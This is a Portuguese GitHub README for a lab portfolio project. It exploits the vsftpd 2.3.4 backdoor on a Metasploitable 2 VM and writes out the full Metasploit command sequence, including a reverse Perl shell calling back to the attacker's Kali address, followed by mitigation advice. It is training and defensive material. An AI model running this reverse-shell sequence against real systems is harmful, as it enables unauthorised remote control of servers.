

# 🛡️ Portfólio de Cibersegurança: Simulação de Invasão por Falha de FTP (vsftpd 2.3.4)

> **Projeto de Estudo Prático & Portfólio para GitHub**  
> Demonstração passo a passo de exploração de vulnerabilidade conhecida em serviço FTP, obtenção de acesso remoto (*reverse shell*) e medidas de defesa.

---

## ⚠️ Aviso Legal e Ético (Disclaimer)

> [!IMPORTANT]
> **Este projeto foi realizado 100% em ambiente virtualizado e controlado de laboratório.**  
> - **Hipervisor:** Oracle VM VirtualBox (Rede interna/isolada).  
> - **Máquina Atacante:** Kali Linux 2024.  
> - **Máquina Alvo:** Metasploitable 2 (máquina propositalmente vulnerável desenvolvida para fins de treinamento e estudo defensivo).  
> - **Finalidade:** Fins estritamente didáticos e acadêmicos de segurança da informação (Segurança Ofensiva e Defensiva). Jamais execute testes de intrusão em redes ou computadores sem autorização prévia por escrito.

---

## ⌨️ Padrão de Teclado (Normas ABNT2)

Durante a realização do laboratório no Linux (Kali Linux), utilizou-se o layout de teclado configurado de acordo com as normas brasileiras **ABNT2**. Isso é essencial para que teclas como barra `/`, contra-barra `\`, interrogação `?`, dois-pontos `:`, aspas e a tecla `ç` funcionem corretamente durante a inserção de comandos no terminal.

```bash
# Comando utilizado para fixar o teclado no padrão brasileiro ABNT2 no Kali Linux:
setxkbmap -model abnt2 -layout br
```

---

## 🗺️ Arquitetura do Laboratório



---

## 📊 Resumo Rápido dos Comandos

| Ordem | Ambiente | Linha de Comando / Ação | O que faz (em termos simples) |
|---|---|---|---|
| **01** | Alvo (Metasploitable) | `msfadmin / msfadmin` | Faz o login no servidor com o usuário de teste padrão. |
| **02** | Alvo (Metasploitable) | `echo flag.txt > flag.txt` | Cria um arquivo de teste ("flag") que comprova o acesso aos arquivos. |
| **03** | Alvo (Metasploitable) | `ls` | Lista os arquivos do diretório e confirma que a flag foi criada. |
| **04** | Alvo (Metasploitable) | `ip a` | Mostra o IP da máquina alvo (`192.168.18.114`). |
| **05** | Atacante (Kali Linux) | `msfconsole` | Abre o console do Metasploit Framework. |
| **06** | Atacante (Kali Linux) | `use exploit/unix/ftp/vsftpd_234_backdoor`<br>`set rhosts 192.168.18.114` | Seleciona o exploit da falha do FTP e define o IP da máquina vítima. |
| **07** | Atacante (Kali Linux) | `show payloads` | Lista os tipos de conexão/código que podemos enviar ao alvo. |
| **08** | Atacante (Kali Linux) | `payload/cmd/unix/reverse_perl` | Escolhe o payload de conexão reversa em Perl. |
| **09** | Atacante (Kali Linux) | `set payload payload/cmd/unix/reverse_perl`<br>`set lhost 192.168.18.110`<br>`exploit` | Configura o IP do Kali, ativa a escuta e dispara o ataque. |
| **10** | Atacante (Kali Linux) | `ip a` | Executado dentro da sessão remota; confirma a invasão com sucesso. |

---

## 🚀 Roteiro Passo a Passo com Evidências

### Passo 1: Acesso Inicial à Máquina Alvo
No ambiente de testes do VirtualBox, inicializamos a máquina **Metasploitable 2** e efetuamos o login com o usuário padrão `msfadmin` e senha `msfadmin`.


* **O que faz:** Autentica no terminal do servidor Linux de testes para prepararmos a máquina e verificarmos suas configurações.

---

### Passo 2: Criação da Flag (Prova de Conceito)
No terminal da máquina alvo, criamos um arquivo chamado `flag.txt`:

```bash
echo flag.txt > flag.txt
```


* **O que a linha de comando faz:**
  * `echo flag.txt`: Exibe o texto `"flag.txt"`.
  * `>`: É um operador de redirecionamento. Em vez de apenas mostrar o texto na tela, ele grava o texto dentro de um novo arquivo.
  * `flag.txt`: É o nome do arquivo criado. Em testes de intrusão e desafios CTF (*Capture The Flag*), uma "flag" é uma prova concreta de que o invasor conseguiu acessar e visualizar dados confidenciais do servidor.

---

### Passo 3: Verificação da Flag Criada
Confirmamos a criação do arquivo no diretório:

```bash
ls
```


* **O que a linha de comando faz:**
  * `ls` (*list*): Lista todos os arquivos e pastas da pasta atual.
  * O retorno exibe `flag.txt` e a pasta `vulnerable`.

---

### Passo 4: Identificação do Endereço IP do Alvo
Descobrimos qual é o endereço de rede da máquina alvo:

```bash
ip a
```


* **O que a linha de comando faz:**
  * `ip a` (abreviação de `ip address`): Mostra as placas de rede do computador.
  * Na interface de rede `eth0`, encontramos o endereço **`192.168.18.114/24`**. Esse é o endereço que utilizaremos no Kali Linux como alvo da invasão.

---

### Passo 5: Inicialização do Metasploit no Kali Linux
Mudamos para a máquina atacante (**Kali Linux** com teclado ABNT2) e abrimos o Metasploit Framework:

```bash
msfconsole
```


* **O que a linha de comando faz:**
  * `msfconsole`: Inicia a principal ferramenta de testes de penetração do mundo, contendo milhares de exploits e módulos prontos para auditoria de segurança.

---

### Passo 6: Seleção do Exploit e Definição do Alvo
Carregamos o módulo que explora a falha do serviço vsftpd e apontamos para o IP do alvo:

```bash
use exploit/unix/ftp/vsftpd_234_backdoor
set rhosts 192.168.18.114
```


* **O que cada linha de comando faz:**
  * `use exploit/unix/ftp/vsftpd_234_backdoor`: Carrega o exploit específico para a versão 2.3.4 do vsftpd. Historicamente, essa versão continha um código malicioso embutido (backdoor) que abria uma porta secreta caso o nome de usuário terminasse com `:)`.
  * `set rhosts 192.168.18.114`: `rhosts` significa *Remote Hosts* (máquina remota). Aqui informamos ao Metasploit qual IP deve receber a requisição de ataque.

---

### Passo 7: Listagem dos Payloads Compatíveis
Listamos os tipos de códigos ou conexões que o Metasploit pode disparar após invadir:

```bash
show payloads
```


* **O que a linha de comando faz:**
  * `show payloads`: Mostra todas as cargas úteis (*payloads*) suportadas por esse exploit (shells normais, reversos, etc.).

---

### Passo 8: Seleção do Payload Perl Reverso
Identificamos na lista a opção número 538:

```text
payload/cmd/unix/reverse_perl
```


* **O que esse payload faz:**
  * Utiliza a linguagem Perl (já instalada nativamente na maioria dos sistemas Linux) para criar uma conexão reversa de rede, devolvendo o controle da máquina para o Kali.

---

### Passo 9: Configuração do LHOST e Disparo do Exploit
Configuramos nosso IP para receber a conexão e executamos o ataque:

```bash
set payload payload/cmd/unix/reverse_perl
set lhost 192.168.18.110
exploit
```


* **O que cada linha de comando faz:**
  * `set payload payload/cmd/unix/reverse_perl`: Ativa o payload escolhido.
  * `set lhost 192.168.18.110`: `lhost` significa *Local Host* (nossa máquina Kali). Informa ao payload para onde enviar a conexão reversa.
  * `exploit`: Dispara o ataque contra o alvo na porta 21 (FTP). O Metasploit envia os pacotes, aciona a porta dos fundos e exibe: `Command shell session 1 opened`!

---

### Passo 10: Sucesso da Invasão e Validação da Sessão
Dentro da linha de comando remota aberta, digitamos:

```bash
ip a
```


* **O que a linha de comando faz e comprova:**
  * Executamos `ip a` de dentro da máquina atacada.
  * O retorno exibe `192.168.18.114` (o IP do Metasploitable 2), comprovando de forma inequívoca que agora possuímos **acesso e controle de linha de comando remoto** sobre o servidor vítima!

---

## 🛡️ Como Mitigar e Prevenir essa Vulnerabilidade (Segurança Defensiva)

Para quem gerencia servidores e redes, as boas práticas para evitar esse tipo de intrusão são:

1. **Atualizar o Software:** Versões vulneráveis como a `vsftpd 2.3.4` devem ser imediatamente atualizadas para versões estáveis e oficiais do mantenedor.
2. **Substituir Protocolos Inseguros:** Evitar o uso de FTP comum (que trafega dados e credenciais em texto puro). Utilizar protocolos seguros e criptografados como **SFTP** (via SSH) ou **FTPS** (FTP com SSL/TLS).
3. **Bloqueio de Portas e Firewall:** Implementar regras rígidas no firewall (como `iptables` ou `ufw`) bloqueando portas não autorizadas e conexões de entrada inesperadas.
4. **Sistemas de Detecção de Intrusão (IDS/IPS):** Ferramentas como Snort ou Suricata detectam assinaturas de tráfego típicas de exploits do Metasploit.
5. **Princípio do Menor Privilégio:** Nunca execute serviços com usuário `root` (administrador) desnecessariamente.

---

## 📁 Arquivos do Projeto

* `Simulacao_Exploit_FTP_vsftpd.pptx` - Apresentação em slides PowerPoint com design dark moderno, 14 slides, anotações e capturas em alta resolução.
* `README.md` - Este documento formatado para o portfólio no GitHub.
* `img/` - Pasta com todas as evidências visuais organizadas e numeradas cronologicamente.

---

## 💻 Como Importar para o seu GitHub

Caso deseje enviar este projeto para o seu perfil no GitHub:

1. Crie um novo repositório no seu GitHub (exemplo: `laboratorio-pentest-ftp-vsftpd`).
2. Abra o terminal na pasta deste projeto e execute:

```bash
git init
git add .
git commit -m "Portfólio: Simulação de invasão vsftpd 2.3.4 em ambiente controlado"
git branch -M main
git remote add origin https://github.com/SEU-USUARIO/laboratorio-pentest-ftp-vsftpd.git
git push -u origin main
```

---

*Projeto desenvolvido para fins educacionais e portfólio profissional em Cibersegurança.*
